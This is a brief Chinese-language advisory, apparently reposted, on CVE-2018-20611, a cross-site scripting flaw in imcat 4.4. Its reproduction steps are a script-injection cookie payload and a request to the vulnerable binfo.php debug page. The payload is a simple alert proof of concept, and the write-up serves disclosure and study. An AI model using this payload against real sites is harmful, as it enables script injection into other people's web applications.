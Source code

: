 # （CVE-2018-20611）Imcat 4.4 xss

> 原文：[https://www.zhihuifly.com/t/topic/2976](https://www.zhihuifly.com/t/topic/2976)

# （CVE-2018-20611）Imcat 4.4 xss

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

将cookie的值修改成

```
"><script>alert(1)</script> 
```

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

然后访问

```
http://www.0-sec.org/root/tools/adbug/binfo.php?cookie` 
```

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md